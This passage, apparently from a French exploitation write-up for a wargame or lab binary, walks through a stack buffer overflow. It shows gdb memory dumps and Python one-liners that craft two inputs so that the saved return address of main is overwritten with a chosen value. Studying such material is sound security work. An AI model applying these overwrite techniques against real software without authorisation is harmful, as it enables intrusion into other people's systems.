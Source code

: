 ```
> (gdb) ni
[...]
> (gdb) x/50wx $esp
0xbffff640:	0xbffff6b6	0xbffff67c	0x00000000	0xb7fd0ff4
0xbffff650:	0xbffff69e	0xbffff69f	0x00000001	0xffffffff
0xbffff660:	0xbffff69f	0xbffff69e	0x41414141	0x00000000
0xbffff670:	0x00000000	0x00000000	0x00000000	0x42424242
0xbffff680:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff690:	0xb7fd0ff4	0x00000000	0xbffff6e8	0x080485b9
0xbffff6a0:	0xbffff6b6	0x080498d8	0x00000001	0x0804835d
0xbffff6b0:	0xb7fd13e4	0x41410016	0x42204141	0x00424242
                        ^
                        buffer
0xbffff6c0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6d0:	0xb7fed280	0x00000000	0x080485d9	0xb7fd0ff4
0xbffff6e0:	0x080485d0	0x00000000	0x00000000	0xb7e454d3
                                                ^
                                                ret main
0xbffff6f0:	0x00000001	0xbffff784	0xbffff78c	0xb7fdc858
0xbffff700:	0x00000000	0xbffff71c
```
Avec cette visualisation, on peut représenter nos `input` de manière abstraite :
```
Entrée_1 : AAAAAAAAAAAAAAAAAAAA
Entrée_2 : BBBBBBBBBBBBBBXXXXB
```
`XXXX` représente l'adresse de retour de notre choix. Visualisons d'abord cette entrée dans `gdb` :
```
> cat /tmp/abstract_input
python -c 'print "A"*20 + "\n"' ; python -c 'print "B"*14 + "XXXX" + "B"'
> chmod 777 /tmp/abstract_input
```
```
> (gdb) r < <(/tmp/asbtract_input)
[...]
> (gdb) ni
[...]
> (gdb) x/50wx $esp
x/50wx $esp
0xbffff640:	0xbffff6b6	0xbffff67c	0x00000000	0xb7fd0ff4
0xbffff650:	0xbffff69e	0xbffff69f	0x00000001	0xffffffff
0xbffff660:	0xbffff69f	0xbffff69e	0x41414141	0x41414141
0xbffff670:	0x41414141	0x41414141	0x41414141	0x42424242
0xbffff680:	0x42424242	0x42424242	0x58584242	0x00425858
0xbffff690:	0xb7fd0ff4	0x00000000	0xbffff6e8	0x080485b9
0xbffff6a0:	0xbffff6b6	0x080498d8	0x00000001	0x0804835d
0xbffff6b0:	0xb7fd13e4	0x41410016	0x41414141	0x41414141
                        ^
                        entrée_1
0xbffff6c0:	0x41414141	0x41414141	0x42424141	0x42424242
                                    ^
                                    entrée_2
                                    (première occurence)
0xbffff6d0:	0x42424242	0x42424242	0x58585858	0x42422042
                                                ^
                                                entrée_2
                                                (seconde occurence)
0xbffff6e0:	0x42424242	0x42424242	0x42424242	0x58585858
                                                ^
                                                ret main écrasée
0xbffff6f0:	0x00000042	0xbffff784	0xbffff78c	0xb7fdc858
0xbffff700:	0x00000000	0xbffff71c
```